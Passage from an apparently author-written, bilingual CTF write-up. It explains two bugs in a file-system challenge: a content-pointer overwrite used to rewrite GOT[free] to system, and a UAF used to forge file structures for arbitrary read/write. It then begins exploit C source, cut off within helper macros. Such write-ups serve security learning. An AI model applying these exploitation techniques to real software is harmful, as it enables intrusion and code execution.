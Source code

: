 

题目也关闭了 PIE 降低了利用难度（~~主要是开了 PIE 我没利用成功~~）

PIE is disabled in order to reduce the difficulty of exploitation.



第一个洞可以通过覆盖 content 指针来任意读写，关闭 PIE 的同时也让 GOT 表可写，只要改写 GOT[free] 为 system 即可执行任意命令

On the one hand, you can overwrite the content pointer to achieve arbitrary read/write. Leak address, and then replace `GOT[free]` with the *system* address to execute any command.



第二个洞可以通过 UAF 伪造目录或者文件，控制整个文件结构体，同样可以任意读写

On the other hand, fake directory or file via UAF to control the whole file structure then get ARW



我看了看收上来的 WP，发现选手都用的第一个洞，而且利用起来也很简单，我这里只给出第二个洞的 exp 吧
Many players exploited the first vulnerability and it is very easy, so we only release the exploitation of UAF：

```c
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/syscall.h>
#include <sys/stat.h>

#define SPRAY_SIZE 0x20

#define OPEN(x, filename, flags) do { \
	files[x] = open(filename, flags); \
	if (files[x] < 0) { \
		perror(filename); \
		exit(-1); \
	} \
} while (0);

#define WRITE(x, off, size) do { \
	if (off != lseek(files[x], off, SEEK_SET)) { \
		perror("lseek"); \
		exit(-2); \
	} \
	if (size != write(files[x], buf, size)) { \
		perror("write"); \
		exit(-2); \
	} \
} while (0);

#define READ(x, off, size) do { \
	if (off != lseek(files[x], off, SEEK_SET)) { \
		perror("lseek"); \
		exit(-3); \
	} \
	if (size != read(files[x], buf, size)) { \
		perror("read"); \
		exit(-3); \
	} \
} while (0);

#define UNLINK(filename) do { \
	if (0 != unlink(filename)) { \
		perror("unlink"); \
```